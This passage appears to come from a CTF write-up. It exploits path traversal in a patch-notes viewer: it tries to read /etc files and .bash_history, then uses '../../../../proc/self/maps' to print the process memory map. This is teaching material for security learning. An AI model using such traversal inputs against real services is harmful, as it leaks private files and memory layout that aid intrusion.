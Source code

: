 ```
```

Success! We now know that the home directory is located at `/home/user`.

What can we do next? Trying to access some other default files like
* /etc/resolv.conf
* /etc/issue
* /home/user/.bash_history
* ..

did not lead to any further information.

During research I found out about a special unix folder called `/proc/self`. This folder gets mapped differently dependent on the PID of the process accessing it. It contains information about the process and accessing this folder through the interface will leak information about it!

```
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../proc/self/maps
00400000-00401000 r-xp 00000000 08:01 768497                             /home/user/main
41414000-41415000 r-xp 00014000 08:01 768497                             /home/user/main
41615000-41616000 r--p 00015000 08:01 768497                             /home/user/main
41616000-41617000 rw-p 00016000 08:01 768497                             /home/user/main
42977000-429a9000 rw-p 00000000 00:00 0                                  [heap]
7fbaea7d0000-7fbaea990000 r-xp 00000000 08:01 768904                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbaeab94000-7fbaeab96000 rw-p 001c4000 08:01 768904                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbaeab96000-7fbaeab9a000 rw-p 00000000 00:00 0
7fbaeab9a000-7fbaeabb0000 r-xp 00000000 08:01 768925                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbaeb0b8000-7fbaeb0b9000 rw-p 00108000 08:01 768936                     /lib/x86_64-linux-gnu/libm-2.23.so
7fbaeb0b9000-7fbaeb22b000 r-xp 00000000 08:01 769792                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7fbaeb435000-7fbaeb437000 rw-p 0017c000 08:01 769792                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7fbaeb437000-7fbaeb43b000 rw-p 00000000 00:00 0
7fbaeb43b000-7fbaeb461000 r-xp 00000000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb658000-7fbaeb65e000 rw-p 00000000 00:00 0
7fbaeb660000-7fbaeb661000 r--p 00025000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb661000-7fbaeb662000 rw-p 00026000 08:01 768884                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbaeb662000-7fbaeb663000 rw-p 00000000 00:00 0
7fffcc786000-7fffcc7a7000 rw-p 00000000 00:00 0                          [stack]
7fffcc7c3000-7fffcc7c6000 r--p 00000000 00:00 0                          [vvar]
7fffcc7c6000-7fffcc7c8000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```
